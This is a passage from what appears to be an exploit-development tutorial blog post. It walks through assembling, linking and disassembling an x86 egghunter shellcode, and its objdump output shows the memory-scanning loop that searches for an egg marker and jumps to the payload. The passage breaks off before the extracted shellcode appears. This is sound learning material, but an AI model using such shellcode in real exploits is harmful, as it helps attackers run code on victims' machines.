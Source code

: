 ### Compile & Test
#### Compiling & Examining the Assembly
The egghunter shellcode `egghunter.nasm` is compiled as explained in previous posts. The commands used were run on 64-bit Kali Linux. To start, the code should be assembled with `/usr/bin/nasm` as shown below. As the program is written in x86 assembly, the `elf32` file type is specified using the `-f` flag.

```shell
root@kali:~/workspace/SLAE# nasm -f elf32 egghunter.nasm -o egghunter.o
```

With the code assembled, the next step is to link the `egghunter.o` file with `/usr/bin/ld`. The `-m` flag specifies that the `elf_i386` emulation linker should be used.

```shell
root@kali:~/workspace/SLAE# ld -m elf_i386 egghunter.o -o egghunter
```

As `egghunter` has been compiled and linked, it should now be disassembled into opcodes using `/usr/bin/objdump` for further examination. Using the command shown below, the operation codes can be examined for any `NULL` characters. The output has been truncated to conserve space.

```shell
root@kali:~/workspace/SLAE# objdump -d ./egghunter -M intel

./egghunter:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:       31 d2                   xor    edx,edx

08049002 <align_page>:
 8049002:       66 81 ca ff 0f          or     dx,0xfff

08049007 <inc_address>:
 8049007:       42                      inc    edx
 8049008:       8d 5a 04                lea    ebx,[edx+0x4]
 804900b:       6a 21                   push   0x21
 804900d:       58                      pop    eax
 804900e:       cd 80                   int    0x80
 8049010:       3c f2                   cmp    al,0xf2
 8049012:       74 ee                   je     8049002 <align_page>
 8049014:       b8 90 50 90 50          mov    eax,0x50905090
 8049019:       89 d7                   mov    edi,edx
 804901b:       af                      scas   eax,DWORD PTR es:[edi]
 804901c:       75 e9                   jne    8049007 <inc_address>
 804901e:       af                      scas   eax,DWORD PTR es:[edi]
 804901f:       75 e6                   jne    8049007 <inc_address>
 8049021:       ff e7                   jmp    edi
```

Upon confirmation, the shellcode can be extracted using the bash one-line command outlined in previous posts. The resulting `egghunter` shellcode is shown below.
